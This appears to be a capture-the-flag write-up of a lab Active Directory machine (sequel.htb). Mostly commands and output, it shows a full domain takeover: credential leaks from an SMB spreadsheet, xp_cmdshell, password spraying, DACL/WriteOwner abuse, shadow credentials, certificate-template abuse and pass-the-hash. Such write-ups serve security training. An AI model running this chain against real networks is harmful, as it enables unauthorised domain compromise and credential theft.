






Default creds open the front door.
rose / [REDACTED] are the provided credentials. Nmap confirms a full AD stack: DNS, Kerberos, LDAP (389/3268), SMB, RPC over HTTP, MSSQL 2019, WinRM.
$ nmap -A -T5 -oN nmap.txt 10.10.11.51 --min-rate 2000
53/tcp open domain
88/tcp open kerberos-sec
389/tcp open ldap Microsoft AD LDAP (Domain: sequel.htb)
445/tcp open microsoft-ds
1433/tcp open ms-sql-s Microsoft SQL Server 2019 15.00.2000.00
5985/tcp open http Microsoft HTTPAPI 2.0$ netexec ldap 10.10.11.51 -u rose -p '[REDACTED]' --users
LDAP [+] sequel.htb\rose:[REDACTED]
LDAP Administrator Guest krbtgt michael ryan oscar sql_svc rose ca_svc
`Accounting Department` share → corrupt `.xlsx` leaks XML creds.
smbclient -L lists an Accounting Department share readable by rose. Two spreadsheets: accounting_2024.xlsx and accounts.xlsx. Both open corrupted in Excel — but .xlsx is just a zip of XML.
$ smbclient "//10.10.11.51/Accounting Department" -U rose
smb: \> get accounts.xlsx
$ unzip accounts.xlsx -d accounts/
$ cat accounts/xl/sharedStrings.xml
<t>oscar@sequel.htb</t>
<t>kevin@sequel.htb</t>
<t>NULL</t>
<t>sa@sequel.htb</t> ← MSSQL sa account
<t>MSSQL@somelongstring...</t>
`xp_cmdshell` + config leak = `sql_svc` password.
$ impacket-mssqlclient 'sa:[REDACTED]@10.10.11.51'
SQL (sa dbo@master)> EXEC xp_cmdshell 'type \SQL2019\ExpressAdv_ENU\sql-Configuration.INI'
[OPTIONS]
...
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="[REDACTED]" ← old sql_svc password
SAPWD="[REDACTED]"
Spray it across the whole user list → `ryan`.
$ nxc smb 10.10.11.51 -u ./users.txt -p ./pass.txt
SMB sequel.htb\ryan:[REDACTED] [+]
$ nxc winrm 10.10.11.51 -u ryan -p '[REDACTED]'
WINRM 5985 DC01 [+] sequel.htb\ryan:[REDACTED] (Pwn3d!)
$ evil-winrm -i 10.10.11.51 -u ryan -p '[REDACTED]'
Evil-WinRM PS C:\Users\ryan\Desktop> type user.txt

`WriteOwner` on `ca_svc` → shadow creds → vulnerable template.
Running BloodHound as ryan shows exactly one outbound object control: WriteOwner on ca_svc. That's enough to seize the Certificate Authority service account.

$ bloodyAD -u ryan -p '[REDACTED]' -d sequel.htb \
--host dc01.sequel.htb set owner ca_svc ryan
[+] Old owner S-1-5-21-... is now replaced by ryan on ca_svc
$ dacledit.py -action write -rights FullControl
-principal ryan -target ca_svc sequel.htb/ryan:'[REDACTED]'
[] DACL backed up to dacledit-...bak
[] DACL modified successfully!
$ certipy-ad shadow auto -u 'ryan@sequel.htb' -p '[REDACTED]' -account ca_svc
[*] Generating certificate ... Adding Key Credential ... Authenticating as 'ca_svc'
[*] NT hash for 'ca_svc': [REDACTED]$ KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k \
-template DunderMifflinAuthentication -dc-ip 10.10.11.51 -target dc01.sequel.htb
[*] Successfully updated 'DunderMifflinAuthentication'
$ certipy-ad req -u ca_svc -hashes :[ca_svc NT hash]
-ca sequel-DC01-CA -template DunderMifflinAuthentication
-target DC01.sequel.htb -dns 10.10.11.51
-upn administrator@sequel.htb
[*] Saved certificate and private key to 'administrator_10.pfx'
`certipy auth` → NT hash → PTH → flag.
$ certipy-ad auth -pfx administrator_10.pfx -domain sequel.htb
[*] Using principal: administrator@sequel.htb
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:[NT HASH]
$ evil-winrm -i 10.10.11.51 -u administrator -H [NT HASH]
*Evil-WinRM* PS> type ..\Desktop\root.txt